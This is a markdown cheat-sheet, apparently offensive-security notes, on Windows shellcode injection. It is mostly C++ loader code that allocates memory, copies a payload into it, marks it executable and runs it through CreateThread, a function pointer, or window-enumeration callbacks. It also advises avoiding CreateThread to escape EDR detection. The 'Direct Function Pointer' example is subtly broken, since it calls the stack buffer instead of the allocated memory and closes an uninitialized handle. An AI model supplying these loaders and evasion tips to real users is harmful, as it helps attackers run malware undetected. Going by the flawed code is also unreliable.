

Is a technique useful to escape from short-lived process or to change the working context.

> **Note**: You can't see the output of the payload injected on other process.

There are different techniques, the most common are payload injection and dll injection. The payload can be injected on a different process or in the current process.


# Local Classic Technique (VirtualAlloc)

The behavior of a local classic injection:

* `VirtualAlloc`: Create a memory space to store our payload. Normally the buffer is created with `PAGE_READWRITE` rights.
* `RtlMoveMemory`: Copy the payload to the new allocated space.
* `VirtualProtect`: Change the protection to `PAGE_READEXECUTE`.
* `CreateThread`: Execute the payload.

Example of local injection:




```cpp
int main(int argc, char ** argv) {

    LPVOID pexec;
    HANDLE hThread;
    BOOL rv;
    DWORD oldprotect;

    char payload[] = {0xfc, 0x48, 0x83,...};


    pexec = VirtualAlloc(0, sizeof(payload), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    RtlMoveMemory(pexec, payload, sizeof(payload));
    rv = VirtualProtect(pexec, sizeof(payload), PAGE_EXECUTE_READ, &oldprotect);
    if(rv){
        hThread = CreateThread(0,0, (LPTHREAD_START_ROUTINE)pexec, 0,0,0);
        WaitForSingleObject(hThread, -1);
    }
    CloseHandle(hThread);
    return 0;
}
```

# Alternatives to CreateThread

There are some alternatives for `CreateThread`. Creating threads can be easily detected by an EDR, try something different.

* [https://github.com/aahmad097/AlternativeShellcodeExec](https://github.com/aahmad097/AlternativeShellcodeExec)

> **Note:** Since we are not creating a new Thread, when our payload finishes it will hang out the main program. Be careful if you are injecting on a remote process.

## Direct Function Pointer

```cpp
#include <Windows.h>
#include <stdio.h>

int main(int argc, char ** argv) {

    LPVOID pexec;
    HANDLE hThread;
    BOOL rv;
    DWORD oldprotect;

    char payload[] = {0xfc, 0x48, 0x83,...};

    pexec = VirtualAlloc(0, sizeof(payload), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    RtlMoveMemory(pexec, payload, sizeof(payload));
    rv = VirtualProtect(pexec, sizeof(payload), PAGE_EXECUTE_READ, &oldprotect);
    if(rv){
        void (*go)() =(void(*)()) payload; go();
    }
    CloseHandle(hThread);
    return 0;
}
```


## WinAPIs

There are other WinAPIs  functions:

```cpp
EnumThreadWindows(0, (WNDENUMPROC) shellcode, 0);
EnumChildWindows((HWND) NULL, (WNDENUMPROC) shellcode, NULL);
```